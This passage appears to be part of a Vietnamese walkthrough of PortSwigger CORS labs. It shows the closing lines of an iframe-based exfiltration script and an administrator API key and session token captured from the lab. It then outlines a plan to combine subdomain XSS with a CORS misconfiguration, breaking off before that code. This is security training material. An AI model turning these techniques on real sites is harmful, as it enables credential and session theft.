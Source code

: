   ```
    };

    req.send(null);


</script>" </iframe>
  
  ```
  
  ![image](https://user-images.githubusercontent.com/104350480/225601927-db0b5eb8-b487-4da3-9876-7d4b7beb120c.png)

  > {%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22YrjgeymGzLj8Hm7ALhSeh4EvNaPbgs61%22,%20%20%22sessions%22:%20[%20%20%20%20%22gh3hzDBNDEpNOoTqdDGqiEibkzhCqGSo%22%20%20]}
  
  Decode:
  
  > {  "username": "administrator",  "email": "",  "apikey": "YrjgeymGzLj8Hm7ALhSeh4EvNaPbgs61",  "sessions": [    "gh3hzDBNDEpNOoTqdDGqiEibkzhCqGSo"  ]}

  
  
  ## [3. Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)<a name='cor3'></a>
  
Mở bài lab, vẫn như bài trước ta mở /accountDetails và test: 
  
  Trường hợp với origin bất kì kh ổn:
  
  ![image](https://user-images.githubusercontent.com/104350480/225615962-a155b7cc-1cca-4b34-b292-7acc0a9b3846.png)

  Và null cũng vậy:
  
  ![image](https://user-images.githubusercontent.com/104350480/225616101-d6d6ac54-3e19-4f32-9671-f44332766ad9.png)

  Bài lab này có vẻ chỉ chấp nhận origin từ chính nó với http và https:
  
  ![image](https://user-images.githubusercontent.com/104350480/225616281-e2e5f6df-b1f8-4145-9474-c15958d671ec.png)

  Nhưng ngoài ra khi ta thử thêm cả trường subdomain vào thì có vẻ ổn:
  
  ![image](https://user-images.githubusercontent.com/104350480/225616445-b4df3b32-12ff-4e96-a434-a9300b864d88.png)
  
  Vậy là ý tưởng của ta bây giờ là cần phải viết script mà sao cho khi nó thực thi thì origin là 1 subdomain của trang web này thì mới tấn công được.
  Bài này thì ý tưởng của người ta mình thấy khá hay, kiểu tìm 1 điểm để thực thi xss mà tại điểm đó có chứa subdomain của miền cần, khi xss được thì trang nó sẽ chứa origin ta cần và việc thực thi thì sẽ được gói gọn bên trong script như các bài trước: 
  
  Khi checkstock thì số lượng được hiển trị trên 1 trang subdomain: 
  
  ![image](https://user-images.githubusercontent.com/104350480/225619517-1e63fe6b-8c29-4f15-a1c0-60e08d14dd75.png)

  Và như ý tưởng của bài lab thì ta tấn công xss vào đây thôi:
  
